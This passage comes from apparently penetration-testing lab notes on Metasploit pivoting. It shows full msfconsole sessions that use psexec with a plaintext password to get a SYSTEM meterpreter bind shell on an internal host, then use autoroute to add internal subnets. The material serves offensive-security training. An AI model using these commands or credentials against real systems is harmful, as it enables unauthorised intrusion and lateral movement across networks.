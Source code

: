 With the route added, we can now use MSF modules to compromise the second target. The  `bind_tcp` payload is used because the target can’t initiate outbound traffic, but our attacking machine can connect to it instead.

```bash
msf6 auxiliary(scanner/portscan/tcp) > use exploit/windows/smb/psexec
...
smsf6 exploit(windows/smb/psexec) > set SMBUser luiza
SMBUser => luiza
msf6 exploit(windows/smb/psexec) > set SMBPass 'BoccieDearAeroMeow1!'
SMBPass => BoccieDearAeroMeow1!
msf6 exploit(windows/smb/psexec) > set RHOSTS 172.16.196.200
RHOSTS => 172.16.196.200
msf6 exploit(windows/smb/psexec) > set PAYLOAD windows/x64/meterpreter/bind_tcp
PAYLOAD => windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/psexec) > set LPORT 8000
LPORT => 8000
msf6 exploit(windows/smb/psexec) > run
...
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### Autoroute

Instead of adding routes manually, the `autoroute` module automatically adds all routable subnets from the compromised host.

{% code overflow="wrap" %}
```bash
msf6 exploit(multi/handler) > use multi/manage/autoroute
msf6 post(multi/manage/autoroute) > sessions

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  7         meterpreter x64/windows  ITWK01\luiza @ ITWK01  192.168.45.232:443 -> 192.168.241.223:50215 (192.168.241.223)

msf6 post(multi/manage/autoroute) > set SESSION 7
SESSION => 7
msf6 post(multi/manage/autoroute) > run
[*] Running module against ITWK01
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.196.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.241.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
```
{% endcode %}

### Socks\_proxy
